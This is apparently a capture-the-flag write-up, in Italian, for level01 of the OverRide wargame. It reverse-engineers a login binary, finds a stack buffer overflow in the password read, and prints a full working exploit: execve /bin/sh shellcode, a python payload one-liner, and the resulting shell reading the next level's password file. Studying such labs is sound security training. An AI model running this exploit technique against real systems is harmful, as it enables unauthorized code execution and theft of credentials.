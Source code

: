 # Level 01
Controlliamo le stringhe presenti nel binario:
```
level01@OverRide:~$ readelf -p '.rodata' level01

String dump of section '.rodata':
  [     8]  verifying username....^J
  [    20]  dat_wil
  [    28]  admin
  [    30]  ********* ADMIN LOGIN PROMPT *********
  [    57]  Enter Username:
  [    68]  nope, incorrect username...^J
  [    85]  Enter Password:
  [    96]  nope, incorrect password...^J
```
Adesso passiamo ad analizzare con `gdb`:
```
level01@OverRide:~$ gdb -q level01
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048318  _init
0x08048360  printf
0x08048360  printf@plt
0x08048370  fgets
0x08048370  fgets@plt
0x08048380  puts
0x08048380  puts@plt
0x08048390  __gmon_start__
0x08048390  __gmon_start__@plt
0x080483a0  __libc_start_main
0x080483a0  __libc_start_main@plt
0x080483b0  _start
0x080483e0  __do_global_dtors_aux
0x08048440  frame_dummy
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
0x080485c0  __libc_csu_init
0x08048630  __libc_csu_fini
0x08048632  __i686.get_pc_thunk.bx
0x08048640  __do_global_ctors_aux
0x0804866c  _fini
```
### Funzione `main`
In questa funzione vengono letti due buffer per poi chiamare le funzioni `verify_user_name` per il primo
e `verify_user_pass` per il secondo buffer per convalidare gli input, e solo se la prima funzione restituisce
`0` il programma continua l'esecuzione.

### Funzione `verify_user_name`
Viene stampata una stringa tramite `puts` e viene comparato il primo input dell'utente con la stringa
`dat_wil` e ritorna il risultato.

### Funzione `verify_user_pass`
Ritorna il risultato della comparazione tra il secondo input dell'utente e la stringa `admin`.

### Soluzione
La seconda chiamata a `fgets` legge troppi byte rispetto alla grandezza del buffer,
quindi procediamo per trovare l'offset in cui viene sovrascritto l'indirizzo in `eip`:
```
level01@OverRide:~$ gdb -q level01
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) b *main+229
Breakpoint 1 at 0x80485b5
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Breakpoint 1, 0x080485b5 in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
L'offset si trova alla posizione 80.
Adesso troviamo l'indirizzo del secondo buffer:
```
level01@OverRide:~$ ltrace ./level01
__libc_start_main(0x80484d0, 1, -10300, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)                               = 39
printf("Enter Username: ")                                                = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)                                       = 0x0804a040
puts("verifying username....\n"verifying username....

)                                          = 24
puts("Enter Password: "Enter Password:
)                                                  = 17
fgets(ciao1
"ciao1\n", 100, 0xf7fcfac0)                                         = 0xffffd6dc
puts("nope, incorrect password...\n"nope, incorrect password...

)                                     = 29
+++ exited (status 1) +++
```
Indirizzo: 0xffffd6dc
Ora basta scrivere una stringa formata nel seguente modo:
```
| shellcode | 52 caratteri spazzatura | indirizzo del buffer
      28    +             52          = 80 caratteri
```
Shellcode:
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x83\xe4\xf0\xcd\x80
```
```
level01@OverRide:~$ python -c 'print "dat_wil" "\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x83\xe4\xf0\xcd\x80" + "A"*52 + "\xdc\xd6\xff\xff"' > /tmp/exploit
level01@OverRide:~$ cat /tmp/exploit - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
exit
exit
level01@OverRide:~$ su level02
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
level02@OverRide:~$
```